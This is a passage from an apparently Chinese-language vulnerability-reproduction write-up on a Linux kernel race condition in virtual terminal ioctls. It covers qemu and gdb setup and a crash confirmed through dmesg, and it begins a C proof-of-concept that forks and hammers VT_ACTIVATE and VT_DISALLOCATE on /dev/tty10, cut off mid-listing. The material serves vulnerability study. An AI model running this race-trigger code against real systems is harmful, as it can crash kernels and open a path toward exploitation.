 我把qemu启动命令映射了一个比较短的命令，这样比较方便

### <a class="reference-link" name="0x03%20gdb%E8%B0%83%E8%AF%95"></a>0x03 gdb调试

自己调试的时候，建议关闭kaslr，这样的话，gdb可以正确的识别kernel的基地址，然后源码也能容易的加载上，我其实是想用gdb多线程调试，我自己手动调度线程，来实现百分之百成功的条件竞争，奈何linux kernel有自己的时间调度函数，你刚到断点，就被时间回调函数回调了，然后不知道走到哪里了，所以只能运行poc看结果

### <a class="reference-link" name="0x04%20%E8%BF%90%E8%A1%8Cpoc"></a>0x04 运行poc

运行大概一秒钟就会 **Segmentation fault**

[![](https://p1.ssl.qhimg.com/dm/1024_593_/t01478f1d7dcdf7d63a.png)](https://p1.ssl.qhimg.com/dm/1024_593_/t01478f1d7dcdf7d63a.png)

这个时候输入dmesg查看log

[![](https://p5.ssl.qhimg.com/dm/1024_551_/t01cda88f3064f214f0.png)](https://p5.ssl.qhimg.com/dm/1024_551_/t01cda88f3064f214f0.png)

发现复现成功



## 0x04 完整poc

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/syscall.h&gt;
#include &lt;sys/mman.h&gt;

#include &lt;fcntl.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/ioctl.h&gt;
#define VT_DISALLOCATE    0x5608
#define VT_RESIZEX      0x560A
#define VT_ACTIVATE    0x5606
#define    EBUSY        1
struct vt_consize `{`
    unsigned short v_rows;    /* number of rows */
    unsigned short v_cols;    /* number of columns */
    unsigned short v_vlin;    /* number of pixel rows on screen */
    unsigned short v_clin;    /* number of pixel rows per character */
    unsigned short v_vcol;    /* number of pixel columns on screen */
    unsigned short v_ccol;    /* number of pixel columns per character */
`}`;
int main()`{`
    int fd=open("/dev/tty10",O_RDONLY);
    if (fd &lt; 0) `{`
        perror("open");
        exit(-2);
    `}`
    int pid=fork();
    if(pid&lt;0)`{`
        perror("error fork");
    `}`else if(pid==0)`{`
    while(1)`{`
        for(int i=10;i&lt;20;i++)`{`
            ioctl(fd,VT_ACTIVATE,i);
        `}`
        for(int i=10;i&lt;20;i++)`{`
            ioctl(fd,VT_DISALLOCATE,i);
```